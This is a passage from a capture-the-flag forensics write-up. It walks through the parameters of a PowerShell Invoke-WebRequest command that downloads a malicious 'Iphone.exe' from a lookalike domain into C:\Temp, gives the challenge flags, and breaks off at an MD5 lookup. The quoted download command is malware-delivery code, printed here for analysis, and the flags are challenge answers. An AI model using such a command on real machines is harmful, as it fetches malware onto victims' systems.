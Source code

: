 Lets analyze the powershell command(From https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)

invoke-webrequest
> The Invoke-WebRequest cmdlet sends HTTP and HTTPS requests to a web page or web service

-Uri
> Specifies the Uniform Resource Identifier (URI) of the internet resource to which the web request is sent. Enter a URI. 

-OutFile
> Specifies the output file for which this cmdlet saves the response body. Enter a path and file name
>
-UseDefaultCredentials
> Indicates that the cmdlet uses the credentials of the current user to send the web request. 


In simple words the powershell command is used to download a file from the internet and save it on disk

The full url is http://<i></i>appIe.com/Iphone.exe

> **Flag: http://<i></i>appIe.com/Iphone.exe**

### 7.Where was the malicious file downloaded to? (Provide the full path)

From the powershell command 
`invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials`

The output folder of the malicious file is `C:\Temp\IPhone.exe`
> **Flag: C:\Temp\IPhone.exe**

### 8.What is the name of the framework used to create the malware?

This one was little tricky, I tried to use tools like detect it easy and even used `IDA pro` and i didn’t get any clue about the framework, so I decide to search the MD5 on `virustotal` to see what I get
### MD5
> 7C827274C062374E992EB8F33D0C188C
